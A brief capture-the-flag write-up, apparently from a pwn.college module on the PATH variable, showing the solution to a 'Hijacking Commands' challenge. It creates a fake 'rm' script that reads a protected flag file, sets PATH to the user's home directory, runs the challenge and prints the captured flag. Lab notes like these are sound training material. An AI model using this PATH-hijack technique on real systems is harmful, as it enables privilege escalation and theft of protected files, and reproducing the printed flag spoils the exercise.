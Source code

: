 # Module 12: Pondering PATH
# Challenges
## The PATH variable 
## Setting PATH
## Adding Commands
## Hijacking Commands
```
hacker@path~hijacking-commands:~$ echo "/run/dojo/bin/cat /flag" > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{MOb9H4c_-xvETpt2VHhwOu7l1S3.ddzNyUDL0QjN5YzW}
```

